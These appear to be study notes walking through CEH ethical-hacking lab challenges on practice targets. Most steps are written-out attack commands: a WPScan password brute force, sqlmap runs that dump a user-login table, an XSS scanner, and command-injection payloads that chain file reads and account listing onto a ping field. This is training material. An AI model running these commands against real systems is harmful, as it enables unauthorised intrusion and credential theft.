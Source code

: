 - Identify the load balancing service used by eccouncil.org.
    1. `lbd eccouncil.org`

- Perform a bruteforce attack on www.cehorg.com and find the password of user adam.
    1. `wpscan --url http://movies.cehorg.com -U adam -P passwords.txt`

- Perform parameter tampering on movies.cehorg.com and find out the user for id 1003.
    1. Login with given credentials
    2. Go to `view profile section`.
    3. Change the id parameter to 1003.

- Perform a SQL Injection attack on movies.cehorg.com and find out the number of users available in the database. Use Jason/welcome as login credentials.
    1. `sqlmap -u http://movies.cehorg.com/viewprofile.aspx?id=1 --cookie="mscope=Xf4nda2RM2w=" --dbs -batch`
        - enumerates database name
    2. `sqlmap -u http://movies.cehorg.com/viewprofile.aspx?id=1 --cookie="mscope=Xf4nda2RM2w=" -D moviescope --tables -batch`  
        - enumerates all tables
    3. `sqlmap -u http://movies.cehorg.com/viewprofile.aspx?id=1 --cookie="mscope=Xf4nda2RM2w=" -D moviescope -T User_login --dump -batch`
        - dumps all details

- Perform XSS vulnerability test on www.cehorg.com and identify whether the application is vulnerable to attack or not. 
    1. Download from `https://github.com/pwn0sec/PwnXSS`
    1. `python3 pwnxss.py -u http://www.cehorg.com`

- A file named Hash.txt has been uploaded through DVWA (http://10.10.10.25:8080/DVWA). The file is located in the directory mentioned below. Access the file and crack the MD5 hash to reveal the original message; enter the content after cracking the hash. You can log into the DVWA using the following credentials. Note: Username- admin; Password- password Path: C:\wamp64\www\DVWA\hackable\uploads\Hash.txt Hint: Use “type” command to view the file. Use the following link to decrypt the hash- https://hashes.com/en/decrypt/hash
    1. Go to `http://10.10.10.25:8080/DVWA` and make the security low.
    2. Then go to command injection tab
    3. Write this payload
        - `127.0.0.1 && type C:\wamp64\www\DVWA\hackable\uploads\Hash.txt`
    4. This give a has crack it using `hashes.com`

- Perform command injection attack on 10.10.10.25 and find out how many user accounts are registered with the machine. Note: Exclude admin/Guest user 
    1. Go to command injection tab
    2. Write this payload 
        - `127.0.0.1 && net user`



# CEH ENGAGE 4

- The mobile device of an employee in CEHORG has been hacked by the hacker to perform DoS attack on one of the server in company network. You are assigned to analyse "Andro.pcapng" located in Documents directory of EH workstation-2 and identify the severity level of the attack. (Note: perform deep down Expert Info analysis).
    1. Open file in Wireshark
    2. Open `Statistics -> Conversations` and see the packet count in IPv4.
    3. Open `Analyze -> Expert Information` and see Warning message.
